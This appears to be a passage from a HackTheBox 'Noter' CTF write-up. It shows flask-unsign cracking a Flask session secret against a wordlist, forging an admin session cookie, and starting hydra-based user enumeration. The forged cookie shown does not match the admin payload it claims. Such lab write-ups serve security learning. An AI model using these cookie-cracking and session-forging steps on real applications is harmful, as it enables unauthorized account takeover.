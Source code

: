 ![Session cookie](/assets/hackthebox/noter/session_cookie.png)



We can try to change the username in cookies. To do that we have to know that Flask also `signs` cookies with secret. We can brute-force it with `flask-unsign` tool. You can install it with `pip`.

```zsh
$ flask-unsign --wordlist ~/tools/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.Yt9Qfw.S3EXih7rCwp2detNid8qx8JO3Xk' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'test'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17536 attempts
b'secret123'
```

We got the secret key! Now we can create a new cookie to access other users.

```zsh
$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidXNlciJ9.Yt9UHg.786sxVinwhrAexXrV0tdz4-W1ro
```

Now we change the cookie in our browser. To do that you have to open storage and modify the session cookie.

![Logged in as admin](/assets/hackthebox/noter/web_admin.png)

Unfortunately, admin has not any interesting notes, so we have to enumerate users. There is no any information about the other user exists, so we have to brute-force it with `hydra`:
